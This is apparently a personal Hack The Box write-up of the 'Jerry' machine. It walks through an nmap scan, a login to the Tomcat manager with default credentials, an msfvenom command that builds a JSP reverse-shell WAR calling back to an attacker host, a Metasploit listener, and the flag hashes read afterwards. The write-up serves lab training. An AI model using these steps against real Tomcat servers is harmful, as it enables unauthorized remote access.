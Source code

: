 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Jerry
tags: []
---
```

**Start 20:48 22-08-2024**

---
```
10.10.10.95
```
## Recon

### Nmap
I discovered that there is only one port open on the target machine `8080` so I decided to check only that one
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -Pn -T5 -vvvv -p8080 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-22 19:49 IST

Nmap scan report for 10.10.10.95
Host is up, received user-set (0.085s latency).
Scanned at 2024-08-22 19:49:40 IST for 12s
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```
We see that it runs `Apache Tomcat version 1.1`.

### 8080/TCP - HTTP

I went to the website and went to the `/manager/html` endpoint where I found some default creds.

![](../../../assets/9b31ff9bad5ad59574b59edada30fd29.png)

```
tomcat:s3cret
```

When prompted to sign in I used these creds and got right in:

![](../../../assets/5cb7a76c966fa55c68f7ca6cfdcc2566.png)

![](../../../assets/6faa9b8f038c52edacce435e53f720c4.png)

We see that we can deploy `.war` files on here. When we scroll to the bottom of the website we find some details about the version running:

![](../../../assets/52fa7e69c76ac28e1bca3a8b5f37dda1.png)

I looked up some `RCE` exploits and found [this site to be useful](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/):

![](../../../assets/9cd28607be295b6b3fda9234e32a48d6.png)

So we too will run the same payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=9999 -f war -o shell.war
```

```bash
┌──(kali㉿kali)-[~]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=9999 -f war -o shell.war
Payload size: 1099 bytes
Final size of war file: 1099 bytes
Saved as: shell.war
```

Now I will start a `metasploit listener`:

```bash
msfconsole

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be sp
                                     ecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp 
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.8
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.8:9999
```

Now I upload the `.war` file to the `Apache Tomcat manager` then click deploy :

![](../../../assets/ac1665951c37e917530c0c1472fc40c7.png)

Click on it and the connection should pop up in `metasploit`:

![](../../../assets/3ee371382b8791042931205b320c8095.png)


## Flags

This will be a combination of 2 flags in one place, simply head to the following directory and there will be one file with both flags in them:

```powershell
C:\Users\Administrator\Desktop\flags
```

```powershell
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>
```


![](../../../assets/5e6ce1bd0ee7f645442e27d06941a6c5.png)

---

**Finished 21:09 22-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
